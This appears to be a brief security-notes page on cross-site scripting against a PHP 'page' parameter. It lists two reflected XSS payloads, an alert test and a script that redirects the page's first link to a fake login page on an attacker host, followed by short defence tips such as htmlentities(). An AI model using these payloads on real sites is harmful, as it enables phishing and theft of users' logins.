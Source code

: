 # Cross-site scripting

## Attack

* Check

```
index.php?page=<script>alert(123)</script>
```

* Change login url

```
index.php?page=<script>document.getElementsByTagName('a')[0].href="http://hackyou.com/xss/login.html"</script>
```

## Defence
* XSS Auditor (Chrome & Safari)
* php method: htmlentities()